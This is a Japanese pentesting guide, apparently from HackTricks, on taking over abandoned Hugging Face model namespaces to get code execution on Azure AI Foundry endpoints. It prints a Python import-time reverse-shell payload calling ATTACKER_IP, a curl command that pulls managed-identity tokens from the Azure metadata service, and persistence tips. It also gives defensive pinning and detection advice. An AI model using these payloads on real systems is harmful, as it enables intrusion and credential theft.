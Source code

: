 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## シナリオ

- Azure AI Foundry Model Catalog には、ワンクリックでデプロイできる Hugging Face (HF) モデルが多数含まれています。
- HF のモデル識別子は Author/ModelName です。もし HF の author/org が削除されると、誰でもその author を再登録して同じ ModelName で旧パスにモデルを公開できます。
- 名前のみで取得する（commit pinning/integrity がない）pipelines や catalogs は、攻撃者がコントロールする repos に解決されます。Azure がモデルをデプロイすると、loader code がエンドポイント環境で実行され、そのエンドポイントの権限で RCE を得られる可能性があります。

一般的な HF の乗っ取りケース:
- 所有権の削除: 旧パスは乗っ取りされるまで 404 のままになります。
- 所有権の移転: 古い author が存在する間は旧パスが新しい author に 307 リダイレクトされます。もし古い author が後で削除され再登録されると、リダイレクトが壊れ、攻撃者の repo が旧パスで提供されます。

## 再利用可能な Namespace (HF) の特定
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Azure AI Foundry に対するエンドツーエンド攻撃フロー

1) Model Catalog で、HF 上で元の作者が削除または移管され（old author removed）、放置された HF モデルを見つける。  
2) HF 上で放棄された作者を再登録し、ModelName を再作成する。  
3) インポート時に実行される、または trust_remote_code=True を要求する loader コードを含む悪意のある repo を公開する。  
4) Azure AI Foundry からレガシーの Author/ModelName をデプロイする。プラットフォームが攻撃者の repo をプルし、loader が Azure の endpoint 上の container/VM 内で実行され、endpoint 権限で RCE を獲得する。

インポート時に実行されるペイロードの断片（デモ用）：
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
注意事項
- AI Foundry を統合する HF 対応のデプロイは、通常モデルの config で参照されるリポジトリモジュール（例: auto_map）をクローンして import し、code execution を引き起こす可能性があります。いくつかのパスでは trust_remote_code=True が必要です。
- アクセス権は通常エンドポイントの managed identity/service principal の権限に一致します。これを Azure 内でのデータアクセスや lateral movement のための initial access foothold として扱ってください。

## Post-Exploitation Tips (Azure Endpoint)

- 環境変数および MSI endpoints を列挙して tokens を取得／確認する:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- 取得したトークンで、マウントされたストレージ、モデルアーティファクト、および到達可能な Azure services を確認する。
- プラットフォームが HF から再取得する場合に備えて、poisoned model artifacts を残して persistence を検討する。

## Azure AI Foundry ユーザー向けの防御ガイダンス

- HF からロードする際は、commit 単位でモデルを pin する:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- 検証済みの HF モデルを信頼できる内部レジストリにミラーし、そこからデプロイする。
- コードベースおよび defaults/docstrings/notebooks を継続的にスキャンし、削除または移管されたハードコーディングされた Author/ModelName を検出したら更新または pin する。
- デプロイ前に author の存在と model の出所を検証する。

## 検出ヒューリスティック (HTTP)

- 削除された author: author page 404; legacy model path 404 until takeover.
- 移管されたモデル: legacy path 307 to new author while old author exists; if old author later deleted and re-registered, legacy path serves attacker content.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## 相互参照

- より広範な方法論およびサプライチェーンの注意点を参照してください:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## 参考文献

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
